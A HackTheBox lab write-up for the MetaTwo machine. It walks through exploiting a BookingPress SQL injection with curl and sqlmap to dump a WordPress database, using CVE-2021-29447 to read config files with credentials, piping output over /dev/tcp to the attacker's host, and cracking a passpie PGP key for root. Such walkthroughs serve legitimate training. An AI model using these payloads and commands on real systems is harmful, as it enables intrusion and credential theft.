 ```yaml
---
title: MetaTwo
date: 2022-11-09T17:33:38-08:00
author: Nate Fortner
draft: false
katex: true
type: default
keywords:
  - MetaTwo
  - HackTheBox
lastmod: 2023-05-01T22:56:11.351Z
---
```


# MetaTwo
## Intial Recon
### Nmap
As usual, I began by running [NmapAutomator](https://github.com/21y4d/nmapAutomator) to get a quick overview of the machine.  I immediately saw that ports `21`, `22`, and `80` were open.  It was running nginx 1.18, ProFTPD, and OpenSSH 8.4.  It was also running on Debian.  On port 80, there is a redirect to `http://metapress.htb`.  Normally I would have to add the IP address and hostname to my hosts file, but I use a script (which can be found [here](https://github.com/bsasealteam6/HTBSupport)) that automatically adds all current HTB machines and IP Addresses to my hosts file, so I just have to find the entry for metatwo.htb and add metapress.htb to the end of the line.
NmapAutomator also ran ffuf against the web server, and found nothing interesting.
### Visiting the site
Next, I browse to `http://metapress.htb` and checkout the site.  It has a link to `http://metapress.htb/events`, which appears to be a meeting scheduler of some sort.  I opened the FireFox developer console network page and submitted the form, then right clicked on the `POST` request and selecting "Copy as cURL."  I then pasted this command into the terminal, replaced the word `curl` with `sqlmap`, and let sqlmap crack on it.  Unfortunately, it didn't find anything interesting.  I did, however, notice that it is a wordpress site.  I ran the command `wpscan --url metapress.htb -e at,ap --plugins-detection mixed` against the site, and found something!  It found a vulnerability (https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357) where I could run SQL queries against the server through a specially crafted cURL.  

## Foothold
### WordPress SQL Injection
One of their examples used the command `curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=1&total_service=1) AND (SELECT 9578 FROM (SELECT(SLEEP(5)))iyUp)-- ZmjH' `  I modified this command slightly, getting a nonce value from the HTML code of the booking site, updating the url to be correct, and dumping the injection, then fed this into sqlmap as `sqlmap 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=61a943f4b5&category_id=33&total_service=1' --dbs`.  This told me there was two databases, `information_schema` and `blog`.  With this knowledge, I next ran the command `sqlmap 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=61a943f4b5&category_id=33&total_service=1' -D blog --dump`.  It dumped the full blog database, finding a table `users` with password hashes. It prompted me whether I wanted to try to crack them, so I told it yes, and specified a custom dictionary of `/usr/share/wordlists/rockyou.txt`.  It was unable to give me a password for `admin`, but `manager` had a password of  `partylikearockstar`.  
### WordPress Media Upload
I then used this to sign into wordpress.  And, I have almost no access.  I tried uploading PHP shells to it, and it blocked them.  I also tried signing into ssh with these creds and that was also blocked.  I found directions [here](https://gobiasinfosec.blog/2019/12/24/file-upload-attacks-php-reverse-shell/) for how to upload it anyways, and followed those directions using burpsuite.  Unfortunately, this did not work.  Next, I found [this](https://github.com/motikan2010/CVE-2021-29447) github page, and followed the directions and they worked.  Using this, I was first able to transfer `/etc/nginx/sites-enabled/default` to find out where the wordpress site was stored, then `/var/www/metapress.htb/blog/wp-config.php`, where I found the FTP Username and Password, `metapress.htb:9NYS_ii@FyL_p5M2NvJ`
### FTP
I did a bit of browsing on the FTP server, and eventually found a file called `send_email.php`.  I opened it up and found the following lines: 
```php
$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;       
```
From this, I figured the user account for logging in was `jnelson`, and the password was `Cb4_JmWM8zUZWMu@Ys`.  I then signed in with SSH.
## Root
### Basics
First thing I did was run sudo -l since I have the password for jnelson.  Unfortunately, jnelson was not allowed to use the sudo command at all.  I also did a check of the `/opt` folder, which was empty, as well as `/`, which didn't have anything that caught my eye.  Next up, I ran linpeas, downloading it to the machine with `wget`, and using bash to pipe it back to my host machine. I ran  
`./linpeas.sh >& /dev/tcp/10.10.14.101/4444 0>&1` on the box, and `nc -lvnp 4444 | tee linpeas.out` on my machine.  Looking through the linpeas output file (after converting it to html for easier viewing), I didn't see much.  However, I noticed an interesting folder called `.passpie` in the home folder.  After searching for passpie, I found out it was a password manager and there was a file called `ssh/root.pass` in there, but it's pgp encrypted.  Let's decrypt it!
I was able to find the PGP private key at `~/.passpie/.key`, then I just ran it through `pgp2john` then `john`, and got the password of `blink182`.  Ran `passpie copy ssh --to stdout`, entered `blink182`, and got the root password.  Then I just had to run `su -` and enter the password, and I was root! 